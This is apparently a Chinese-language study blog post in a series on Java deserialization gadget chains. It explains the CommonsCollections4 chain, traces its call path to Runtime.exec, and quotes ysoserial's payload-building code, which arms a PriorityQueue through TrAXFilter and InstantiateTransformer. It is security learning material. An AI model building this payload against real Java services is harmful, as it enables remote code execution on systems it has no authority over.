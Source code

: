 ```yaml
---
title: "Java反序列化利用链学习 - CommonCollection4"
date: 2022-05-02T17:21:00+08:00
lastmod: 2022-05-02T17:22:00+08:00
draft: false
lightgallery: true
categories: [
    "Java Security",
]
tags: [
    "deserialiaztion",
    "java",
    "common collection",
]
---
```

## Java反序列化利用链系列

* [Java反序列化利用链 - CommonCollection1](commoncollection1.md)
* [Java反序列化利用链 - CommonCollection2](commoncollection2.md)
* [Java反序列化利用链 - CommonCollection3](commoncollection3.md)
* [Java反序列化利用链 - CommonCollection4](commoncollection4.md)
* [Java反序列化利用链 - CommonCollection5](commoncollection5.md)
* [Java反序列化利用链 - CommonCollection6](commoncollection6.md)
* [Java反序列化利用链 - CommonCollection7](commoncollection7.md)

## Java反序列化利用链 - CommonCollection4

### 前置条件

* JDK 1.7
* commons-collections4 4.0

### 利用链分析

`CommonCollection4`为`CommonCollection2`的变种，不同的是将`org.apache.commons.collections.functors.InvokerTransformer`变为了`org.apache.commons.collections.functors.InstantiateTransformer`，并且通过`TrAXFilter`的构造函数来触发`TemplateImpl`利用链，这点在[Java反序列化利用链 - CommonCollection3]({{< relref "commoncollection3/index.md" >}})中已经提过了。

`CommonCollection4`利用链的调用过程大致如下：

```
Gadget chain:
    ObjectInputStream.readObject()
        PriorityQueue.readObject()
            ...
            PriorityQueue.siftDownUsingComparator()
                TransformingComparator.compare()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                            Method.invoke()
                                TrAXFilter.TrAXFilter()
                                    TemplatesImpl.newTransformer()
                                        TemplatesImpl.defineTransletClasses()
                                            Runtime.exec()
```

`ysoserial`中的相关代码如下

```java
public Queue<Object> getObject(final String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    ConstantTransformer constant = new ConstantTransformer(String.class);

    // mock method name until armed
    Class[] paramTypes = new Class[] { String.class };
    Object[] args = new Object[] { "foo" };
    InstantiateTransformer instantiate = new InstantiateTransformer(
            paramTypes, args);

    // grab defensively copied arrays
    paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
    args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

    ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

    // create queue with numbers
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
    queue.add(1);
    queue.add(1);

    // swap in values to arm
    Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
    paramTypes[0] = Templates.class;
    args[0] = templates;

    return queue;
}
```

## References

1. <https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections4.java>
